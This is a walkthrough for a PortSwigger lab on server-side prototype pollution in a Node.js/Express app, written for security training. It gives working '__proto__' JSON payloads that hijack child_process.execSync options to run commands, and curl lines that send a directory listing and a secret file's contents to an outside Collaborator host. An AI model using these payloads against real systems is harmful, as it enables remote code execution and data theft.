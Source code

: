 # Exfiltrating sensitive data via server-side prototype pollution

[This lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-exfiltrating-sensitive-data-via-server-side-prototype-pollution) is built on `Node.js` and the `Express` framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that it is possible to inject arbitrary system commands that are executed on the server.

## Reproduction

### Study the address change feature

1. Log in with `wiener:peter` and visit the account page. Submit the form for updating your billing and delivery address.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the `POST /my-account/change-address` request.
3. When submitting the form, the data from the fields is sent to the server as JSON. The server responds with a JSON object that appears to represent your user. This has been updated to reflect the new address information.
4. Send the request to Burp Repeater.

### Identify a prototype pollution source

1. In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property.

```text
"__proto__": {
    "json spaces":10
}
```

2. Send the request.
3. In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

### Probe for remote code execution

1. Go to the admin panel and observe that there's a button for running maintenance jobs.
2. Click the button and observe that this triggers background tasks that cleanup the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.
3. Try polluting the prototype with a set of malicious properties that control the options passed to the `child_process.execSync()` method. The injected command should trigger an interaction with the public Burp Collaborator server:

```text
"__proto__": {
    "shell":"vim",
    "input":":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

4. Send the request.
5. In the browser, go to the admin panel and trigger the maintenance jobs. After a short delay, these fail to run.
6. In Burp, go to the Collaborator tab and poll for interactions. Observe that you have received several interactions. This confirms the remote code execution.

### Leak the hidden file name

1. In Burp Repeater, modify the payload in your malicious input parameter to a command that leaks the contents of Carlos's home directory to the public Burp Collaborator server. The following is one approach for doing this:

```text
"input":":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```
    
2. Send the request.
3. In the browser, go to the admin panel and trigger the maintenance jobs again.
4. Go to the Collaborator tab and poll for interactions.
5. Notice that you have received a new HTTP POST request with a Base64-encoded body.
6. Decode the contents of the body to reveal the names of two entries: node_apps and secret.

### Exfiltrate the contents of the secret file

1. In Burp Repeater, modify the payload in your malicious input parameter to a command that exfiltrates the contents of the file `/home/carlos/secret` to the public Burp Collaborator server. The following is one approach for doing this:

```text
"input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```

2. Send the request.
3. In the browser, go to the admin panel and trigger the maintenance jobs again.
4. Go to the Collaborator tab and poll for interactions.
5. Notice that you have received a new HTTP POST request with a Base64-encoded body.
6. Decode the contents of the body to reveal the secret.
7. In browser, go to the lab banner and click **Submit solution**. Enter the decoded secret to solve the lab.

## Exploitability

To solve the lab:

An attacker will need to already have escalated privileges, giving access to admin functionality; find a prototype pollution source that can be used to add arbitrary properties to the global `Object.prototype`; identify a gadget that can be used to inject and execute arbitrary system commands; trigger remote execution of a command that leaks the contents of Carlos's home directory (`/home/carlos`) to the public Burp Collaborator server; exfiltrate the contents of a secret file in this directory to the public Burp Collaborator server; and submit the secret obtained from the file using the button provided in the lab banner. 

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: wiener:peter 